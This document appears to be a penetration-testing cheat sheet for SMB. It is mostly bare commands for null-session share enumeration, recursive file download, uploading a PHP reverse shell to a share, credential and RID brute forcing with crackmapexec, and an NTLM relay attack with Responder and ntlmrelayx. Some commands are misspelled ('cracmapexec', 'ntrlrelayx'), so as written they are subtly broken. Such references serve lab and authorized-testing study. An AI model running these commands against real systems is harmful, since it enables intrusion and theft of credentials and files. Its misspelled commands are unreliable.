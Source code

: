 ```yaml
---
icon: database
description: Server Message Block
---
```


# SMB

## <mark style="color:purple;">Enumeration</mark>

{% tabs %}
{% tab title="smbclient" %}
## <mark style="color:purple;">Without Credentials</mark>

{% code title="List Resource list" %}
```bash
smbclient -L <IP>
```
{% endcode %}

{% code title="List Null session" %}
```bash
smbclient -N <IP>
```
{% endcode %}

{% code title="Connect to share" %}
```bash
smbclient -N \\\\IP\Share
```
{% endcode %}

{% code title="List Resources list + Null session" %}
```bash
smbclient -L \\10.10.10.123 -N
```
{% endcode %}

{% code title="Upload PHP reverse shell" %}
```bash
smbclient -N //10.10.10.123/Development -c 'put cmd.php tokyo.php'
```
{% endcode %}

{% code title="Without Credentials" %}
```
smbclient --no-pass //IP/<Share>
```
{% endcode %}

{% code title="List Share" %}
```bash
smbclient //IP/<SHARE> -U <USER>
```
{% endcode %}
{% endtab %}

{% tab title="smbmap" %}
{% code title="Connect to Host" %}
```
smbmap -H <IP>
```
{% endcode %}

{% code title="Connect with credentials" %}
```bash
smbmap -H <IP> -d <dns> -u '<user>' -p '<pass>'
```
{% endcode %}

{% code title="List Share" %}
```
smbmap -H <IP> -r <SHARE>
```
{% endcode %}
{% endtab %}

{% tab title="crackmapexec" %}
{% code title="Connect to host" %}
```bash
crackmapexec smb <IP>
```
{% endcode %}

{% code title="List shares" %}
```bash
crackmapexec smb <IP> -u '' -p '' --shares
```
{% endcode %}

{% code title="Full Enumeration" %}
```bash
crackmapexec smb <IP> -u <username> -p <password> --allinfo
```
{% endcode %}

{% code title="Bruteforce credentials" %}
```bash
cracmapexec smb <IP> -u usernames -p passwords
```
{% endcode %}

{% code title="Brutefoce RID" %}
```bash
crackmapexec smb <IP> -u <USER> -p <PASSWORD> --rid-brute
```
{% endcode %}

{% code title="Deep Credential Bruteforce" %}
```bash
crackmapexec smb <IP> -u usernames -p passwords --continue-on-success
```
{% endcode %}

{% code title="RMU (Remote Management User)" %}
```bash
crackmapexec winrm <IP> -u <USER> -p <PASSWORD>
```
{% endcode %}
{% endtab %}

{% tab title="impacket" %}
{% code title="Connect to server" %}
```bash
impacket-smbclient <IP>/user:password@address
```
{% endcode %}
{% endtab %}

{% tab title="smbget" %}
{% code title="Download file" %}
```bash
smbget -U <User> smb://IP/<SHARE_LOCATION> / --download
```
{% endcode %}
{% endtab %}

{% tab title="Metasploit" %}
{% code title="Select the module" %}
```bash
use auxiliary/scanner/smb/smb_enumshares
```
{% endcode %}

{% code title="Set target" %}
```bash
set RHOSTS <target_ip>
```
{% endcode %}

{% code title="Execute" %}
```bash
run
```
{% endcode %}
{% endtab %}

{% tab title="Nmap-Scripts" %}
```bash
nmap --script smb-enum-shares.nse -p445 10.10.10.123
```
{% endtab %}
{% endtabs %}

***

## &#x20;<mark style="color:purple;">To download files type this sequence of commands:</mark>

{% stepper %}
{% step %}
### <mark style="color:orange;">`recurse`</mark>
{% endstep %}

{% step %}
### <mark style="color:orange;">`prompt`</mark>
{% endstep %}

{% step %}
### <mark style="color:orange;">`mget *`</mark>
{% endstep %}
{% endstepper %}

***

{% hint style="danger" %}
## <mark style="color:purple;">NTLM Relay Attacks</mark>

{% code title="Capture the Hash" %}
```bash
responder -I eth0 -dwv
```
{% endcode %}

{% code title="Relay the hash" %}
```bash
impacket-ntrlrelayx -tf target.txt -smb2support -c <payload>
```
{% endcode %}
{% endhint %}
